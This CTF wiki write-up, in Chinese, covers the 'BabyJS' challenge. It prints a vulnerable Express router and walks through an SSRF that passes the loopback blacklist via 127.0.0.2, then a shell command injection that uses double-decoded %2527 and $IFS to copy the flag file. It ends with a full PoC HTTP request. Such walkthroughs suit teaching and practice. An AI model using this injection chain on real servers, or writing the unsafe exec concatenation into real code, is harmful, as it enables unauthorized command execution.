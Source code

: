 # [网鼎杯 2020 半决赛]BabyJS
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 



给出源码以及关键逻辑，并不算是特别复杂



```
var express = require('express');
var config = require('../config');
var url=require('url');
var child_process=require('child_process');
var fs=require('fs');
var request=require('request');
var router = express.Router();


var blacklist=['127.0.0.1.xip.io','::ffff:127.0.0.1','127.0.0.1','0','localhost','0.0.0.0','[::1]','::1'];

router.get('/', function(req, res, next) {
    res.json({});
});

router.get('/debug', function(req, res, next) {
    console.log(req.ip);
    if(blacklist.indexOf(req.ip)!=-1){
        console.log('res');
	var u=req.query.url.replace(/[\"\']/ig,'');
	console.log(url.parse(u).href);
	let log=`echo  '${url.parse(u).href}'>>/tmp/log`;
	console.log(log);
	child_process.exec(log);
	res.json({data:fs.readFileSync('/tmp/log').toString()});
    }else{
        res.json({});
    }
});


router.post('/debug', function(req, res, next) {
    console.log(req.body);
    if(req.body.url !== undefined) {
        var u = req.body.url;
	var urlObject=url.parse(u);
	if(blacklist.indexOf(urlObject.hostname) == -1){
		var dest=urlObject.href;
		request(dest,(err,result,body)=>{
			res.json(body);
		})
	}
	else{
		res.json([]);
	}
	}
});

module.exports = router;
```

正常路径下返回一个空的json文件，然后/debug路径下分为POST和GET两种请求。能看见POST请求下有一个url.parse()函数

```
使用 url.parse()方法将路径解析为一个方便操作的对象。
第二个参数为 true 表示直接将查询字符串转为一个对象（通过query属性来访问），默认第二个参数为false。
```

POST里面的逻辑大概接受用户传来的数据，然后经过url.parse，判断是否在黑名单中出现，是的话返回空，否则的话将产生的结果继续请求，相当于进了/debug的GET部分。

GET里的逻辑是如果是本地访问就读取get参数中的url参数，去除其中的单引号和双引号，然后用nodejs的url.parse去解析。把解析后的url拼接到一条shell命令中执行。之后返回/tmp/log文件中的内容。

大致的逻辑链就能拟出。



```
黑名单过滤的127.0.0.1实际上没啥作用，因为例如127.0.0.2，甚至127.0.0.1到127.255.255.254都属于本地回环网络

@前，也就是URL中表示用户名和密码的字段会被二次解码
http://%2527@xx这样的东西能够绕过单双引号的限制

最后的poc
{"url":"http://127.0.0.2:3000/debug?url=http://a%2527@a;cp$IFS/flag$IFS/tmp/log%00"}
拼接一下看看：
echo  'http://a%2527@a;cp$IFS/flag$IFS/tmp/log%00'>>/tmp/log
;表示隔开命令，%00截断了后续的重定向符号
```

最终：

```
POST /debug HTTP/1.1

Host: c1d73d87-dac2-4a5a-9fca-cf868ae144aa.node4.buuoj.cn

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Connection: close

Content-Type: application/json

Cookie: UM_distinctid=17b0a55a0d936f-00af545b3ada28-31634645-410100-17b0a55a0da10; session=eyJhZG1pbiI6Im5vIn0=; session.sig=XE3E3dxGe4xLwivd7_2AbjNcdIU

Upgrade-Insecure-Requests: 1

Cache-Control: max-age=0

Content-Length: 85



{"url":"http://127.0.0.2:3000/debug?url=http://a%2527@a;cp$IFS/flag$IFS/tmp/log%00"}
```

